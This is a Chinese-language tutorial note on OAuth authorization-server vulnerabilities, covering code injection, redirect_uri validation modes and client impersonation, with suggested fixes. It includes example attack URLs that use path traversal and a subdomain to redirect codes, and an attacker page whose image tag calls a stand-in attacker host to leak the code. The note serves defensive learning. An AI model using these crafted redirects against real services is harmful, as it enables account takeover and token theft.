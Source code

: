 # 常见的授权服务器漏洞

## 会话劫持
在授权码许可流程中，攻击者可以通过自己的账号登陆站点，然后篡改重定向URI将其他用户的授权码注入，访问其他受害者的资源。

解决方案：
-   客户端不能多次使用同一个授权码，如果一个客户端使用了已经被用过的授权码，授权服务器必须拒绝该请求，并且应该尽可能撤回之前通过授权码颁发的所有令牌
-   将授权码与client_id绑定，在获取令牌时做校验：保证授权码只会颁发给经过身份认证的客户端；如果客户端不是保密客户端，则要确保授权码只会颁发给请求中client_id对应的客户端

## 重定向URL篡改
之前已经说明在注册redirect_uri时应该尽可能具体，在授权服务器对请求中的redirect_uri与注册的redirect_uri进行校验通常有三种方法：精确匹配、允许子目录、允许子域名

### 精确匹配
将收到的redirect_uri参数与客户端注册信息中记录的redirect_uri进行简单的字符串比较，如果不匹配，则提示错误。精确匹配是唯一始终安全的重定向URI校验算法

### 允许子目录
只校验请求中redirect_uri的起始部分，只要以注册信息中的redirect_uri为起始内容，后续追加任何内容都被视为有效，redirect_uri路径可以指向注册的回调URL的一个子目录

### 允许子域名
为redirect_uri中的主机名部分提供了一些灵活性，如果收到的redirect_uri是注册信息中redirect_uri子域名，则会被认为有效

### 允许子目录的重定向攻击
OAuth客户端redirect_uri为：
```
    https://theoauthclient.com/oauth/oauthprovider/callback
```

OAuth客户端会发送如下请求：
```
    https://www.thecloudcompany.biz/authorize?response_type=code&client_id=CLIENT_ID@scope=SCOPE&state=STATE&redirect_uri=https://theoauthclient.com/oauth/oauthprovider/callback
```

确保攻击得逞的条件是，攻击者能够在目标客户端站点创建页面：
```
    https://theoauthclient.com/usergeneratedcontent/attackerpage.html
```
攻击者构建如下的URL：
```
    https://www.thecloudcompany.biz/authorize?response_type=code&client_id=CLIENT_ID@scope=SCOPE&state=STATE&redirect_uri=https://theoauthclient.com/oauth/oauthprovider/callback/../../usergeneratecontent/attackerpage.html
```
如果允许子目录的校验算法，则该redirect_uri完全合法，这个精心构造的redirect_uri使用路径遍历爬升到站点的根节点，然后再向下定位到攻击者自行生成的页面，如果授权服务器采用TOFU方法，根本不会向受害用户显示授权页面。攻击者页面内容
```html
    <html>
        <h1>Autuorization in progress</h1>
        <img src="https://attackersite.com">
    </html>
```
### 允许子域名的重定向攻击
如果授权服务器使用允许子域名的重定向URI校验算法,并且OAuth客户端允许攻击者在redirect_uri子域名下创建受其控制的页面。攻击者控制的页面可以运行在http:attacker.theoauthclient.com之下。攻击者构建的URI如下：
```
    https://www.thecloudcompany.biz/authorize?response_type=code&client_id=CLIENT_ID&scope=SCOPE&state=STATE&redirect_uri=https://attacker.theoauthclient.com
```
## 客户端假冒
在前面已经讨论过，可以利用重定向的漏洞获取受害者的授权码，并通过授权码获取访问令牌。决绝方案可以在授权服务器令牌端点处理授权码许可请求部分，添加如下代码：
```javascript
    if(code.request.redirect_uri){
        if(code.request.redirect_uri != req.body.redirect_uri){
            res.status(400).json({Error: 'invalid_grant'});
        }
    }    
```

